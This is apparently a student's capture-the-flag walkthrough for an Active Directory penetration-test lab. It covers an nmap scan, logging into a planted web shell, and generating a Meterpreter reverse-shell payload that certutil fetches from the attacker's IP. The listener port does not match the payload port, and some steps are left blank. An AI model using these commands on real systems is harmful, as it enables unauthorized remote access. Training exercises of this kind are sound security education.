 The complete course is [[Index |here]]
# Background
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: ***admin:My_W3bsH3ll_P@ssw0rd!*** in place for us to start from in the /uploads directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

# Question 1: Submit the contents of the flag.txt file on the administrator Desktop of the web server

## Nmap Scan
```
┌──(root㉿kali)-[/home/z3tssu/Downloads]
└─# nmap -p80,445,135,139 -v -Pn 10.129.202.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 21:19 +04
Initiating Parallel DNS resolution of 1 host. at 21:19
Completed Parallel DNS resolution of 1 host. at 21:19, 0.00s elapsed
Initiating SYN Stealth Scan at 21:19
Scanning 10.129.202.242 [4 ports]
Discovered open port 135/tcp on 10.129.202.242
Discovered open port 80/tcp on 10.129.202.242
Discovered open port 139/tcp on 10.129.202.242
Discovered open port 445/tcp on 10.129.202.242
Completed SYN Stealth Scan at 21:19, 0.28s elapsed (4 total ports)
Nmap scan report for 10.129.202.242
Host is up (0.25s latency).

PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

## Navigating the Webserver /uploads
The instructions basically gives us a credential and a URL path to go to
http://10.129.202.242/uploads/

```
admin:My_W3bsH3ll_P@ssw0rd!
```

this seems like a directory of some sort, lets enumerate further
1. Only the antak.aspx works

![[Pasted image 20251014213138.png]]

Once we browse to the antak.aspx, we are greeted with a login page

![[Pasted image 20251014213148.png]]

lets try and use the credentials here **admin:My_W3bsH3ll_P@ssw0rd!**
![[Pasted image 20251014213315.png]]

We have access using the given credentials

## Reading the Flag.txt contents
```
cat c:\users\administrator\desktop\flag.txt
```

![[Pasted image 20251014213814.png]]

# Question 2: Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

We will have to elevate our privileges and get a proper shell on the target, lets do so using Meterpreter 

## 1. Create a PAYLOAD using MSFVenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.117 LPORT=4444 -f psh -o payload.ps1
```
## 2. Transfer the Payload to the target (certutil)

```bash
certutil.exe -urlcache -f http://10.10.14.117:8080/payload.ps1 payload.ps1
```
## 3. Setup Listener 

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.117
LHOST => 10.10.14.117
msf6 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf6 exploit(multi/handler) > run

```
## 4. Execute the Payload on the Target



For this we will have to Kerberoast the accounts, lets try and use either PowerView or Rubeus 

## Download PowerView or Host
I already have it on my machine, but it can be downloaded here; [PowerTools/PowerView/powerview.ps1 at master · PowerShellEmpire/PowerTools · GitHub](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
## Host PowerView using a Python Server (attacker Machine)
```
python -m http.server 9090 
```

## Download PowerView from the Target Machine
```

```

